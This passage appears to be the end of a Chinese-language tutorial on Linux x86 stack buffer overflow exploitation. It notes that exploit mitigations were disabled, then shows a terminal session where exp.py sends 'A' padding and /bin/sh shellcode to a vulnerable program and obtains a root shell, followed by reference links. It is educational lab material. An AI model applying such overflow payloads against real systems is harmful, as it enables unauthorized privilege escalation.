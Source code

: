>注意：为了获得这个root shell，需要关闭了许多漏洞利用缓解技术。
```Shell
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

## 参考资料

1. https://wizardforcel.gitbooks.io/sploitfun-linux-x86-exp-tut/1.html
2. https://www.freebuf.com/column/176154.html
3. https://github.com/JnuSimba/LinuxSecNotes